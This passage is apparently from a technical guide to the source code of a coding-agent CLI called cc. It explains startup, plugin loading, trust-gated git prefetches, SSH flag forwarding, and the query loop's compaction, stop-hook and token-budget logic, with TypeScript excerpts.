After the REPL launches, `startDeferredPrefetches()` also triggers plugin and skill initialization. The `initializeVersionedPlugins()` function (`src/utils/plugins/installedPluginsManager.ts`) loads installed plugins from the `~/.claude/plugins/` directory and registers their tools and resources with the MCP system. The `initBundledSkills()` function (`src/skills/bundled/index.ts`) registers the built-in skills that ship with cc.

Plugins and skills are subject to the same security model as MCP servers: they are treated as untrusted code (HER section 12.4, "Supply Chain Attacks via MCP Servers/Skills"). The permission system (chapter 32) gates access to plugin-provided tools, and the sandbox system (chapter 33) restricts what plugin processes can do on the host system. The `getManagedPluginNames()` function (`src/utils/plugins/managedPlugins.ts`) returns the list of plugins that are managed by the organization's IT department, which are exempt from certain permission checks because they have been vetted by the organization.

### Deferred prefetches

`startDeferredPrefetches()` (`src/main.tsx:L388-L431`) runs after the REPL's first render, launching background I/O that does not need to complete before the user sees the prompt. This includes user info, git context, AWS/GCP credentials, file counts, analytics gates, and change detectors. The `--bare` flag and `CLAUDE_CODE_EXIT_AFTER_FIRST_RENDER` env var both skip these prefetches, since they would add overhead to scripted invocations.

The `prefetchSystemContextIfSafe()` function (`src/main.tsx:L360-L380`) is a security-conscious wrapper: it only runs git commands (which can execute arbitrary code via hooks and config) after the trust dialog has been accepted or in non-interactive mode where trust is implicit. This implements HER section 12's guidance on supply chain attacks via configuration. The function checks `checkHasTrustDialogAccepted()` before calling `getSystemContext()`, which in turn runs `git status`, `git log`, and other git commands that may invoke `core.fsmonitor` or `diff.external` hooks. In non-interactive mode, trust is implicit because the user has explicitly invoked the command.

The deferred prefetches also include `initializeAnalyticsGates()`, which fires GrowthBook feature flag evaluations for the current user. These evaluations determine which features are active (like fast mode, auto mode, and cache editing) and must complete before the first API call. However, the GrowthBook SDK caches results to disk, so the first call after a cache hit is nearly instant; only the first-ever call for a new user requires a network round-trip.

### Eager settings loading

The `eagerLoadSettings()` function (`src/main.tsx:L502-L516`) parses the `--settings` and `--setting-sources` flags before `init()` is called. This is necessary because settings affect which configuration sources are loaded during initialization. If `--setting-sources` disables `policySettings`, for example, `init()` must know this before it attempts to load managed settings. The function uses `eagerParseCliFlag()` to extract the flag value from `process.argv` without loading the full Commander program, which would be too expensive at this early stage.

### Stdin handling for headless mode

The `getInputPrompt()` function (`src/main.tsx:L857-L883`) handles piped stdin for headless mode. When stdin is not a TTY and the command is not `mcp`, the function reads stdin data and appends it to the prompt. This allows users to pipe content into cc: `cat file.txt | claude -p "summarize this"`. The function includes a 3-second timeout (`peekForStdinData`) that detects when stdin is an inherited pipe from a parent process that is not writing data. The timeout prevents cc from hanging indefinitely when launched as a subprocess without explicit stdin handling. When the timeout fires, a warning is printed to stderr explaining the situation and suggesting either `< /dev/null` to skip stdin or waiting longer for slow producers.

### The `run()` function and Commander program

The `run()` function (`src/main.tsx:L884-L900`) constructs the Commander.js program with a sorted help configuration. The `createSortedHelpConfig()` helper sorts options by their long flag name, making the `--help` output more navigable. The Commander program defines the main action handler and all subcommands (mcp, update, etc.). The action handler is the final dispatch point that receives parsed options and decides whether to run in headless mode or launch the interactive REPL.

The Commander program also handles global options that must be parsed before the action handler fires. These include `--model` (which sets `mainLoopModelOverride`), `--permission-mode` (which sets the initial permission mode), and `--dangerously-skip-permissions` (which enables unrestricted mode). Each of these options has a validation function that checks the value before applying it. The `--model` option, for example, calls `parseUserSpecifiedModel()` to normalize the model string and `normalizeModelStringForAPI()` to ensure it is a valid API model identifier.

```typescript
// src/main.tsx:L818-L834 (client type determination)
const clientType = (() => {
  if (isEnvTruthy(process.env.GITHUB_ACTIONS)) return 'github-action';
  if (process.env.CLAUDE_CODE_ENTRYPOINT === 'sdk-ts') return 'sdk-typescript';
  if (process.env.CLAUDE_CODE_ENTRYPOINT === 'sdk-py') return 'sdk-python';
  if (process.env.CLAUDE_CODE_ENTRYPOINT === 'sdk-cli') return 'sdk-cli';
  if (process.env.CLAUDE_CODE_ENTRYPOINT === 'claude-vscode') return 'claude-vscode';
  if (process.env.CLAUDE_CODE_ENTRYPOINT === 'local-agent') return 'local-agent';
  if (process.env.CLAUDE_CODE_ENTRYPOINT === 'claude-desktop') return 'claude-desktop';
  const hasSessionIngressToken = process.env.CLAUDE_CODE_SESSION_ACCESS_TOKEN || process.env.CLAUDE_CODE_WEBSOCKET_AUTH_FILE_DESCRIPTOR;
  if (process.env.CLAUDE_CODE_ENTRYPOINT === 'remote' || hasSessionIngressToken) {
    return 'remote';
  }
  return 'cli';
})();
```

## Edge cases and failure modes

### Debug detection and process exit

`main.tsx` includes a top-level check (`src/main.tsx:L266-L271`) that detects if the process is being debugged via `--inspect` flags or the Node.js inspector. In external builds, this triggers an immediate `process.exit(1)`. This is a security measure to prevent live debugging of production binaries, which could expose internal implementation details and API keys.

### Settings flag and prompt cache interaction

The `loadSettingsFromFlag()` function (`src/main.tsx:L432-L483`) creates a content-hash-based temp file path for inline JSON settings, rather than a random UUID. This is critical for prompt cache efficiency: the settings path ends up in the Bash tool's sandbox deny list, which is part of the tool description sent to the API. A random UUID per subprocess would change the tool description on every query, invalidating the cache prefix and causing a 12x input token cost penalty (`src/main.tsx:L447-L456`). The content hash ensures identical settings produce the same path across process boundaries. The hash is computed from the entire JSON string, so any change to the settings produces a different path, but identical settings across multiple `query()` calls in the same SDK session share the same path and thus the same cache prefix.

### SIGINT handling in print mode

In headless/print mode, the SIGINT handler is skipped (`src/main.tsx:L602-L604`) because `print.ts` registers its own handler that aborts the in-flight query and calls `gracefulShutdown`. Without this skip, the top-level `process.exit(0)` would preempt the graceful shutdown, potentially leaving stale session files on disk. The print mode handler also sends a cancellation event to the API so that the streaming response is properly terminated rather than left in a half-finished state.

### KAIROS and SSH pending state

The `PendingAssistantChat` and `PendingSSH` types use a pattern where `feature()` gates control whether the module-scope variable is even allocated. When `feature('KAIROS')` returns false, `_pendingAssistantChat` is `undefined` and all code that references it is dead-code-eliminated. This is stronger than a runtime check: the code does not exist in the bundle at all. The KAIROS pending state is parsed from argv in `main()` by checking if the first positional argument is `assistant`. Position-0 checking is deliberate: using `indexOf` would false-positive on `claude -p "explain assistant"`, where "assistant" is part of the prompt, not a subcommand.

### macOS URL scheme handling

When macOS LaunchServices launches the cc `.app` bundle via a URL scheme, the URL arrives via Apple Event rather than `process.argv`. The detection relies on `process.env.__CFBundleIdentifier === 'com.anthropic.claude-code-url-handler'` (`src/main.tsx:L666-L676`), which macOS sets to the launching bundle's ID. This is cheaper than importing and guessing with heuristics, and more reliable than checking for URL-related arguments in `process.argv` (which may not be present for Apple Event launches).

### SSH flag forwarding

The `PendingSSH` type and its argv parsing logic (`src/main.tsx:L700-L795) implement a sophisticated flag-forwarding mechanism for SSH sessions. When the user runs `claude ssh host /dir`, the SSH flags (`--permission-mode`, `--dangerously-skip-permissions`, `--local`) are extracted from `process.argv` and stashed in `_pendingSSH`, then stripped from `argv` so the Commander program does not see them. Session-resume flags (`--continue`, `-c`, `--resume`) and `--model` are forwarded to the remote CLI's initial spawn via `extraCliArgs`. This ensures that the remote CLI starts with the same configuration as the local invocation, maintaining consistency across the SSH boundary.

The `extractFlag` helper function (`src/main.tsx:L739-L759`) handles both `--flag value` and `--flag=value` syntax, normalizing them into a consistent format for the remote CLI. The function also handles the `-c` short flag by rewriting it to `--continue` (the remote CLI's long form), ensuring that short flags typed by the user are properly translated.

Headless mode (`-p`/`--print`) is explicitly rejected for SSH sessions (`src/main.tsx:L786-L789`) because SSH sessions need the local REPL to drive them (interrupt handling, permission dialogs). Without this guard, a user running `claude ssh host -p "prompt"` would get local execution instead of the intended remote execution, potentially running the prompt against the wrong filesystem.

## Where cc diverges from the published pattern

HER section 7 describes entry flags as one of six configuration surfaces. cc implements this faithfully, but adds a layer of sophistication not described in the pattern: the `--setting-sources` flag (`src/main.tsx:L484-L496`) allows users to selectively disable setting sources, which is useful for testing and for environments where certain configuration layers should be ignored. This is a cc-specific extension not found in the general pattern.

The migration system in `main.tsx` is also cc-specific. HER does not describe how to handle configuration format changes across versions. cc's approach -- a versioned, idempotent migration system -- is a pragmatic solution for a tool that is updated frequently and whose configuration format evolves with each model release.

HER section 7.1 notes the ETH Zurich finding that "context files tend to reduce task success rates compared to providing no repository context, while also increasing inference cost by over 20%." cc's deferred prefetch system partially addresses this by only loading context (git status, user info, file counts) after the first render, so it does not add to the startup latency that the user perceives. However, cc does not implement the "minimal requirements" recommendation from the ETH Zurich study; its CLAUDE.md files can be arbitrarily long.

HER section 7.5 describes hooks as lifecycle events. cc implements hooks through the `processSessionStartHooks()` and `processSetupHooks()` functions called in `main.tsx`, which run user-defined shell commands at the `SessionStart` and `Setup` lifecycle points. These are the earliest lifecycle hooks available, running before the first API call, and they can be used for environment setup tasks like activating virtual environments or setting environment variables.

## Developer takeaways for building a long-running agent

1. **Separate the entry router from the command handlers.** `cli.tsx` handles fast-path dispatch with zero imports; `main.tsx` handles the full Commander program. This two-tier routing ensures that `--version` is instant while the full CLI loads only when needed.

2. **Use content hashes for temp file paths that appear in prompts.** Random UUIDs in tool descriptions or system prompts will bust the API provider's prompt cache, causing significant cost increases. Content hashes produce the same path for the same content, preserving cache hits across process boundaries.

3. **Run migrations before the CLI parser.** Configuration format changes must be applied before the Commander program reads flags, because some flags (like `--model`) reference model strings that may have been renamed.

4. **Defer prefetches until after first render.** Background I/O (user info, git context, credential prefetching) should not block the initial paint. The user is still typing their first prompt, so this work can hide behind their think-and-type latency.

5. **Use the "pending state" pattern for feature-gated paths.** Module-scope variables with `feature()` guards let you parse argv early without importing the heavy modules that implement the feature. This keeps the import DAG clean and the startup path fast.

6. **Gate dangerous subprocesses behind trust.** Git commands can execute arbitrary code via hooks and config. Only run them after the user has accepted the trust dialog, or in non-interactive mode where trust is implicit.

7. **Handle SIGINT differently per mode.** Headless mode needs a graceful shutdown that cancels the in-flight query and emits final telemetry. Interactive mode can afford a simpler `process.exit(0)`. The top-level handler must know which mode is active to avoid preempting mode-specific cleanup.
# The Query Loop: Heartbeat of the Agent

## Overview

The query loop is the core execution engine of cc. Implemented as an async generator function `queryLoop()` in `src/query.ts`, it orchestrates the cycle of sending a prompt to the Anthropic API, receiving streamed tokens, dispatching tool calls, collecting tool results, and repeating until the model produces a terminal stop reason. This chapter walks through the loop's structure, its interaction with the compaction hierarchy, token budgets, stop hooks, and the state machine that governs transitions between iterations. HER's Pattern 6 (Explore-Plan-Act Loop) describes the three-phase model; cc's query loop is its concrete realization, with compaction and budget management woven into every iteration.

The query loop is the most performance-critical and complexity-dense module in the codebase. At approximately 1,700 lines, it must handle streaming token production, concurrent tool dispatch, multi-level compaction, budget enforcement, and error recovery -- all while maintaining strict invariants about message ordering, thinking block preservation, and prompt cache consistency. Every design decision in the loop has been shaped by production incidents: context rot from unbounded conversation growth, infinite retry loops from unrecoverable errors, premature completion from over-eager model stops, and cache busting from compaction-induced message reordering.

## Data structures and contracts

### QueryParams: the loop's input contract

The `query()` function accepts a `QueryParams` object that encapsulates everything the loop needs to run one user turn:

```typescript
// src/query.ts:L181-L199
export type QueryParams = {
  messages: Message[]
  systemPrompt: SystemPrompt
  userContext: { [k: string]: string }
  systemContext: { [k: string]: string }
  canUseTool: CanUseToolFn
  toolUseContext: ToolUseContext
  fallbackModel?: string
  querySource: QuerySource
  maxOutputTokensOverride?: number
  maxTurns?: number
  skipCacheWrite?: boolean
  // API task_budget (output_config.task_budget, beta task-budgets-2026-03-13).
  // Distinct from the tokenBudget +500k auto-continue feature. `total` is the
  // budget for the whole agentic turn; `remaining` is computed per iteration
  // from cumulative API usage.
  taskBudget?: { total: number }
  deps?: QueryDeps
}
```

The `deps` field enables dependency injection for testing. When absent, `productionDeps()` provides the real implementations of microcompact, autocompact, API streaming, and tool execution. The `taskBudget` field is distinct from the token budget system: it represents an API-level budget for the whole agentic turn, with `remaining` computed per iteration from cumulative API usage. This allows the Anthropic API to enforce its own budget independently of cc's internal token counting.

The `querySource` field identifies the origin of the query (REPL main thread, agent subagent, resume, etc.) and affects behavior like content replacement persistence and memory prefetch routing. When `querySource` is `'agent'`, content replacement records are persisted so they can be read back on resume; when it is a one-shot agent call, records are ephemeral because the caller will never read them.

### State: mutable cross-iteration state

The loop maintains a `State` type that is destructured at the top of each iteration and reassigned at each `continue` site:

```typescript
// src/query.ts:L204-L217
type State = {
  messages: Message[]
  toolUseContext: ToolUseContext
  autoCompactTracking: AutoCompactTrackingState | undefined
  maxOutputTokensRecoveryCount: number
  hasAttemptedReactiveCompact: boolean
  maxOutputTokensOverride: number | undefined
  pendingToolUseSummary: Promise<ToolUseSummaryMessage | null> | undefined
  stopHookActive: boolean | undefined
  turnCount: number
  // Why the previous iteration continued. Undefined on first iteration.
  // Lets tests assert recovery paths fired without inspecting message contents.
  transition: Continue | undefined
}
```

The `transition` field records why the previous iteration continued, letting tests assert recovery paths without inspecting message contents. The `maxOutputTokensRecoveryCount` tracks how many times the loop has recovered from a `max_output_tokens` truncation, capping at `MAX_OUTPUT_TOKENS_RECOVERY_LIMIT = 3` (`src/query.ts:L164`). The `pendingToolUseSummary` is a promise that resolves to a human-readable summary of tool calls, produced by the tool use summary generator while the next API call streams. This overlap hides the latency of summary generation behind the API round-trip.

### The async generator protocol

The `query()` function is an `async function*` generator that yields events to the caller and returns a `Terminal` result:

```typescript
// src/query.ts:L219-L239
export async function* query(
  params: QueryParams,
): AsyncGenerator<
  | StreamEvent
  | RequestStartEvent
  | Message
  | TombstoneMessage
  | ToolUseSummaryMessage,
  Terminal
> {
  const consumedCommandUuids: string[] = []
  const terminal = yield* queryLoop(params, consumedCommandUuids)
  // Only reached if queryLoop returned normally. Skipped on throw (error
  // propagates through yield*) and on .return() (Return completion closes
  // both generators).
  for (const uuid of consumedCommandUuids) {
    notifyCommandLifecycle(uuid, 'completed')
  }
  return terminal
}
```

The `yield*` delegation to `queryLoop()` means that events yielded by the inner generator are transparently passed through to the outer consumer. The `consumedCommandUuids` array tracks slash commands that were started during the turn, and notifies them as completed only if `queryLoop` returns normally (not on throw or early return). This ensures that slash commands that were interrupted by an error do not receive a spurious completion notification.

The `Terminal` return type encodes the reason the loop stopped: `end_turn` (the model declared completion), `tool_use` (the model requested a tool call, which will be handled by the next iteration), `max_tokens` (the model ran out of output tokens), `budget_exceeded` (the token budget was exhausted), or `error` (an unrecoverable error occurred). The REPL uses the `Terminal` value to decide what to do next: for `end_turn`, it waits for the next user input; for `budget_exceeded`, it displays a warning; for `error`, it shows the error message.

The yielded event types serve different consumers. `StreamEvent` events carry streaming tokens and tool_use blocks that are rendered in real-time by the Ink UI. `RequestStartEvent` events mark the beginning of each API call, allowing the REPL to display a loading indicator. `Message` events carry completed messages (assistant responses, user messages, tool results) that are appended to the conversation history. `TombstoneMessage` events mark messages that have been removed by compaction, allowing the REPL to update its state without re-reading the full message array. `ToolUseSummaryMessage` events carry the human-readable tool use summary generated by the tool use summary generator.

## Control flow

### The main loop structure

The `queryLoop()` function's outer structure is an infinite `while(true)` loop. Each iteration follows this sequence:

1. **Destructure state** -- read all fields from the `state` object
2. **Start prefetches** -- skill discovery and memory prefetch in parallel
3. **Yield request start** -- emit `{ type: 'stream_request_start' }`
4. **Apply content budget** -- trim oversized tool results via `applyToolResultBudget()`
5. **Apply snip compact** -- remove `<history_snip>` blocks
6. **Apply microcompact** -- cached compaction pass for tool results
7. **Apply context collapse** -- project collapsed context view
8. **Apply autocompact** -- full compaction if token threshold exceeded
9. **Stream API response** -- call the Anthropic API with prepared messages
10. **Process tool calls** -- dispatch tools and collect results
11. **Check stop hooks** -- evaluate `handleStopHooks()`
12. **Check token budget** -- enforce `checkTokenBudget()`
13. **Continue or return** -- update `state` and loop

The destructure-and-reassign pattern for `State` is worth examining in detail. At the top of each iteration, all fields are read from the `state` object into local variables. At each `continue` site, a new `state` object is constructed from the current values of those local variables (with modifications). This pattern makes the state transitions explicit: every `continue` site must enumerate the fields it changes, and the unchanged fields are carried forward by reference. The `transition` field records which recovery path fired, enabling tests to assert that specific code paths were taken without inspecting message contents.



### Compaction hierarchy within the loop

The query loop applies four layers of compaction in a specific order before each API call. This order matters: each layer operates on the output of the previous one, and the layers are designed to compose cleanly. The compaction hierarchy is cc's primary defense against context rot (HER failure mode 6.1), where the model's performance degrades as key information falls into mid-window positions and the agent begins re-solving problems it has already addressed.

1. **Snip compact** (`src/query.ts:L401-L409`): Removes `<history_snip>` blocks from older messages. Runs before microcompact because snip operates on raw message content, not tool_use_id. The `snipTokensFreed` value is plumbed to autocompact so its threshold check reflects what snip removed; `tokenCountWithEstimation` alone cannot see the freed tokens because it reads usage from the protected-tail assistant, which survives snip unchanged. Snip compact is the cheapest layer: it requires no API call and operates by stripping marked blocks from the message array. The `<history_snip>` blocks are inserted by the history system when it truncates long tool outputs, and snip compact removes them to free up the tokens they occupy.

2. **Microcompact** (`src/query.ts:L413-L425`): Cached compaction that trims tool results and applies content replacement. Operates by tool_use_id, so it is invisible to snip. For cached microcompact (cache editing), the boundary message is deferred until after the API response so actual `cache_deleted_input_tokens` can be used. Microcompact is the second-cheapest layer: it may require an API call for the initial compaction of each tool result, but subsequent iterations reuse the cached result. The microcompact system is described in detail in chapter 28.

3. **Context collapse** (`src/query.ts:L440-L447`): Projects a collapsed view of the conversation, replacing granular messages with summaries. Runs before autocompact so that if collapse gets the context under the autocompact threshold, the more expensive autocompact is a no-op. Nothing is yielded -- the collapsed view is a read-time projection over the REPL's full history. Context collapse is the third-cheapest layer: it requires no API call and operates by transforming the message array into a different view. The collapse system groups consecutive messages by type (e.g., multiple Bash tool calls in a row) and replaces them with a single summary message.

4. **Autocompact** (`src/query.ts:L453-L467`): Full model-based compaction that summarizes the conversation when the token count exceeds the context window threshold. This is the most expensive compaction layer because it requires an API call to generate the summary. The compaction result includes pre-compact and post-compact token counts, which are logged to analytics via `tengu_auto_compact_succeeded`. Autocompact is the last resort: if the previous three layers could not get the context under the threshold, autocompact summarizes the entire conversation into a compact summary that replaces all but the most recent messages.

The `calculateTokenWarningState()` function (`src/services/compact/autoCompact.ts`) computes the current token usage as a percentage of the context window and determines whether autocompact should be triggered. The function considers the total token count (input + output from the last API response), the context window size for the current model, and a configurable threshold (typically 80%). When the threshold is exceeded, the function returns a warning state that triggers autocompact on the next iteration. The threshold is not 100% because the model needs room for the response; triggering autocompact at 100% would leave no space for the model to generate output.

### Query loop state machine

The transitions between loop iterations are governed by the model's stop reason and the results of stop hooks and token budget checks:



### Stop hooks and token budget evaluation

The stop-hook and token-budget checks form the loop's terminal evaluation phase. After the model produces a response with `stop_reason = end_turn`, the loop does not immediately return. Instead it runs a two-stage evaluation: first the stop hooks, then the token budget. This ordering matters because stop hooks may inject continuation messages that trigger additional API calls, and those calls may themselves consume enough tokens to exhaust the budget. The flowchart below shows the decision logic:



The stop-hook evaluation path also handles teammate-specific hooks. When the query is running inside a teammate context (a subagent participating in a multi-agent team), `handleStopHooks()` additionally runs `TaskCompleted` hooks for any in-progress tasks owned by that teammate, followed by `TeammateIdle` hooks. These hooks allow the team coordinator to detect when a teammate has finished its work and can be reassigned, or when a teammate has been idle too long and may need prompting.

### Stop hook evaluation

The `handleStopHooks()` function (`src/query/stopHooks.ts`) evaluates user-defined hooks that fire when the model declares it is done. This implements HER's Deterministic Lifecycle Hooks (Pattern 12) at the `Stop` event. If a stop hook returns a "continue" signal, the loop re-enters the compaction phase and makes another API call, effectively preventing premature completion (HER failure mode 6.2).

Stop hooks are a critical defense against the model declaring "I'm done" when the task is not actually complete. A common pattern is a `Stop` hook that checks whether all items in a todo list have been marked as completed, and if not, injects a continuation message telling the model to keep working. This is a cc-specific implementation of HER's recommendation to use "a comprehensive JSON feature list with all items initially marked 'failing'." The stop hook pattern is more flexible than a fixed JSON feature list because it can evaluate arbitrary conditions, including checking the file system for expected output files or running tests to verify completion.

The `handleStopHooks()` function is itself an async generator, yielding progress messages and attachment messages as hooks execute. This design allows the REPL to display real-time feedback while hooks are running:

```typescript
// src/query/stopHooks.ts:L65-L81
export async function* handleStopHooks(
  messagesForQuery: Message[],
  assistantMessages: AssistantMessage[],
  systemPrompt: SystemPrompt,
  userContext: { [k: string]: string },
  systemContext: { [k: string]: string },
  toolUseContext: ToolUseContext,
  querySource: QuerySource,
  stopHookActive?: boolean,
): AsyncGenerator<
  | StreamEvent
  | RequestStartEvent
  | Message
  | TombstoneMessage
  | ToolUseSummaryMessage,
  StopHookResult
>
```

The function returns a `StopHookResult` containing `blockingErrors` (messages from hooks that blocked the turn) and `preventContinuation` (whether the hook explicitly stopped the loop from continuing). If `preventContinuation` is true, the loop terminates regardless of other conditions; if `blockingErrors` is non-empty but `preventContinuation` is false, the loop appends the error messages and continues so the model can respond to them.

The `stopHookActive` field in the `State` type tracks whether a stop hook is currently being evaluated. This prevents re-entrant hook evaluation: if a stop hook triggers a new API call that also ends with `end_turn`, the loop does not evaluate stop hooks again for the same turn. This prevents infinite loops where a poorly written stop hook keeps injecting continuation messages indefinitely.

### The tool use summary generator

The `generateToolUseSummary()` function (`src/services/toolUseSummary/toolUseSummaryGenerator.ts`) produces a human-readable summary of tool calls while the next API call is streaming. The summary is generated asynchronously and stored in the `pendingToolUseSummary` field of `State`. When the next API response arrives, the summary is yielded to the REPL for display. This overlap hides the latency of summary generation behind the API round-trip, providing a smoother user experience.

The tool use summary is important for the REPL's UX: it gives the user a concise overview of what the agent did in the previous iteration, even when the actual tool results are complex and verbose. The summary includes the tool names, the key parameters, and a brief description of the result. For example, a Bash tool call that ran `npm test` would be summarized as "Ran npm test: 12 tests passed, 2 failed" rather than including the full test output.

### Message normalization and API preparation

Before sending messages to the API, the query loop applies several normalization steps. The `normalizeMessagesForAPI()` function (`src/utils/messages.ts`) ensures that messages conform to the API's expected format: assistant messages must not contain tool_result blocks, user messages must not contain tool_use blocks, and the message ordering must be strictly alternating (user, assistant, user, assistant). The normalization also strips internal metadata fields that are not part of the API contract (like `uuid` and `timestamp`), reducing the request size and avoiding potential API errors from unrecognized fields.

The `stripSignatureBlocks()` function removes signature blocks from assistant messages. Signature blocks are internal markers used by cc to track which parts of the response were generated by the model and which were injected by the system. They are not part of the API contract and would cause validation errors if included in the request.

The `stripAdvisorBlocks()` function removes advisor blocks from assistant messages. Advisor blocks are generated by the advisor system (which runs a separate model in parallel to provide suggestions). These blocks are used internally by cc but must be stripped before the messages are sent to the API, because the API would treat them as regular content and potentially become confused by the interleaved advisor and primary model outputs.

### Token budget checks

The `checkTokenBudget()` function (`src/query/tokenBudget.ts`) enforces per-turn and per-session token limits. When a budget is exceeded, the loop terminates gracefully, yielding a budget-exceeded message. The `createBudgetTracker()` function (`src/query/tokenBudget.ts`) maintains running totals that are checked after each API response.

The token budget system implements HER's back-pressure mechanisms (section 7.6). When the budget is approaching its limit, the loop can take corrective actions: increasing the model's `max_tokens` to let it finish faster, or triggering compaction to reduce the input token count. The `snapshotOutputTokensForTurn()` function (`src/bootstrap/state.ts:L733-L737`) captures the output token count at the start of each turn and computes the per-turn budget. The `budgetContinuationCount` counter tracks how many times the budget has been exceeded and continued, capping at a configurable limit to prevent indefinite budget extensions.

### Content replacement and tool result budget

